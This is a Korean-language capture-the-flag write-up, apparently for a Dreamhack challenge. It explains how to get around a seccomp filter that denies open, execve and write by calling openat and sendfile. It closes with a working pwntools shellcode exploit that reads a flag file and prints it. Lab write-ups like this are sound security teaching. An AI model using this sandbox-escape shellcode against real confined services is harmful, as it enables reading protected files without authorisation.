 ```bash
pwndbg> checksec
[*] '/root/bypass_seccomp'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

<br>

**코드 분석**

일단 SECCOMP 규칙에 `open` `execve` `execveat` `write` 를 Deny 하는 규칙이 있다.   

쉘코드를 읽는 기본 c 코드가 있으니, 허용되는 `openat` 같은 명령어를 통해 `flag` 파일을 실행시켜보라는 문제로 보인다.   

그리고 shellcode 에 무언갈 적는것 말고는 아무것도 할 수가 없다 (fsb, bof 등등)  
카나리를 제외하고 모든 보안기법이 걸려있으니 쉘 코드를 맞게 잘 적으면 될 거 같다

**익스플로잇 코드 구하기**

<img width="1318" height="559" alt="image (9)" src="https://github.com/user-attachments/assets/b23eb141-77f0-4a80-9bb3-5515822076db" />





c 코드가 있어 전부 나와있지만 seccomp 명령어도 한번 써서 확인해주고,   

```c
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
```

그리고 저기있는 0003과 0004 는 코드에 안나타나있길래 찾아보니,   
커널 우회 공격을 방지하기 위해 저절로 삽입되는 조건이라고 한다.   

openat("./flag") → read 로 파일을 읽고 그 뒤에 어떻게 이걸 적어내는게 문제인데, 여기선 sendfile 함수를 사용하면 된다.  

이제 익스플로잇 코드를 작성할건데,  
자세한 코드 설명은 코드 아래에 적어두겠다.    

대략적인 순서는 이렇다.  

- 읽고 싶은 파일을 먼저 열고 
    - 로컬에서: `/home/alex030905/pwnable/SECCOMP/Bypass_SECCOMP/flag`
    - 서버에서: `/home/bypass_seccomp/flag`
- 파일 디스크립터(fd)를 가져온 뒤,  
- `sendfile`을 사용해 stdout (1)으로 전송하고
- `exit(0)`으로 종료

이런 순서로 흘러간다.   

<br>

**익스플로잇 코드**

```python
from pwn import *

context.arch = 'x86_64'

p = process('./bypass_seccomp')
# p = remote('host3.dreamhack.games', 8599)

shellcode = shellcraft.openat(0, '/home/alex030905/pwnable/SECCOMP/Bypass_SECCOMP/flag')
# shellcode = shellcraft.openat(0, '/home/bypass_seccomp/flag')

shellcode += 'mov r10, 0xffff'
shellcode += shellcraft.sendfile(1, 'rax', 0).replace('xor r10d, r10d','')
shellcode += shellcraft.exit(0)
p.sendline(asm(shellcode))
```